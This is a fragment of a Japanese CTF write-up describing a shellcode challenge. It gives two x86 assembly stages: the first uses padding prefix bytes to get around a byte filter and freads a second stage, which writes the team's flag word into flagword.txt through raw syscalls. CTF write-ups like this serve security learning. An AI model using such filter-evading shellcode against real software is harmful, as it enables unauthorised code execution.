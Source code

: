 nabytes.binの中身(最大2バイト) の一部
がシェルコードに含まれていないかチェックするようになる。

nabytes.binの中身は空だった。

flagword.txtに自チームのフラッグワードを書き込むことができる。

終了後に作問者から
nabytes.binに書き込んで他のチームを妨害できると教えてもらった。

shellcode\_stage1.asm:

    bits 32
    org 0x804a340
     
    ;5
    db 0x2e
    push dword [esp+0x10] ;stdin
    ;7
    db 0x2e,0x2e
    push 2048
    ;5
    db 0x2e,0x2e,0x2e
    push 1
    ;7
    db 0x2e,0x2e
    push stage2
    ;7
    db 0x2e,0x2e
    call 0x08048810 ;fread

     
    stage2:

shellcode\_stage2.asm:

    org 0x804a340 + 5 + 7 + 5 + 7 + 7
    bits 32
     
    mov ebx, path
    mov eax,0x5            ;sys_open
    mov ecx, 0x400+0x40+1 ;O_APPEND | O_CREAT | O_WRONLY
    int 0x80
     
    mov ebx, eax       ;fd
    mov eax, 4         ;sys_write
    mov ecx, flagword  ;buf
    mov edx, 0x1000    ;len
    int 0x80
     
    hlt
     
    path:
    db "flagword.txt", 0
    flagword:
    db "95f13c77edc735fc82258d878a54d91e", 0x0a
    flagword_end:
